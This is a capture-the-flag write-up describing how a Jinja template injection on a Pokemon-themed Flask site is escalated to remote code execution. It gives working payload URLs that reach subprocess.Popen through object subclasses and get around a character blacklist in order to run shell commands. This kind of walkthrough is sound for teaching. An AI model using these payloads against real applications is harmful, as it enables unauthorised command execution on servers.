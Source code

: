 ```yaml
---
author: Garfield1002
layout: post
date: 2023-09-12 12:00:00 +0200
excerpt_separator: <!--more-->
tags: web pctf
title: "Pick your starter"
---
```


In this challenge, we exploit a Jinja template injection to get RCE.

<!--more-->
{% raw %}

We have a website which displays Pokemon.

![Alt text](/assets/pctf/pick-your-starter-0.png)

The server header reports `Werkzeug` so we tried the `/console` endpoint.

> Checkout `debug=True` shell that `Werkzeug` offers and was behind the [2015 Patreon Hack](https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/)

![](/assets/pctf/pick-your-starter-1.png)

## Vulnerability

After some experimentation, we discover that there is a **template injection attack**. Let's see the result for `/{{7*6}}`:

![Alt text](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-2.png)

We also notice that many characters are blacklisted including `-`, `+`, `'`, `"`, `[` and `]`.

Although this webpage is entertaining, for the rest of this challenge we will be using a Python script with `BeautifulSoup` to extract the interesting text:

```py
import requests
from bs4 import BeautifulSoup
page = requests.get("http://chal.pctf.competitivecyber.club:5555/{{7*6}}")

soup = BeautifulSoup(page.content, "html.parser")

prefix_len = len("<h1>\"b'")
suffix_len = len("'\" isn't a starter Pokémon.</h1>")

extracted = str(soup.find_all("h1")[0])[prefix_len:-suffix_len]

print(extracted)
```

## Exploit

We would like to get RCE on the server. We want to access the Python base class `object` in order to access all subclasses of `object`, that is every available class in the program. Given the blacklist, we are able to do so using `()`. We can list all available classes with the `__subclasses__` method.

Here is the URL we built:
`http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__()}}`

The response looks like this (the final list is a lot longer, this is just an extract):

```
"lt;class 'type'&gt;, &lt;class 'async_generator'&gt;, &lt;class 'bytearray_iterator'&gt;, &lt;class 'bytearray'&gt;, &lt;class 'bytes_iterator'&gt;, &lt;class 'bytes'&gt;, &lt;class 'builtin_function_or_method'&gt;, &lt;class 'callable_iterator'&gt;, &lt;
```

We are interested in the 455th element `subprocess.Popen`, as it will give us a shell.

We cannot use the `[` or `]` characters, so we have to use the `__getitem__` method.

Finally, we want to pass our string command to the constructor. This can be easily done using `request.args.shell` and passing an argument `?shell=cat /flag.txt` to our request.

The final URL is:
`"http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()}}?shell=cat ../flag.txt"`

## The flag

`PCTF(wHOS7H47PoKEmoN)`
{% endraw %}
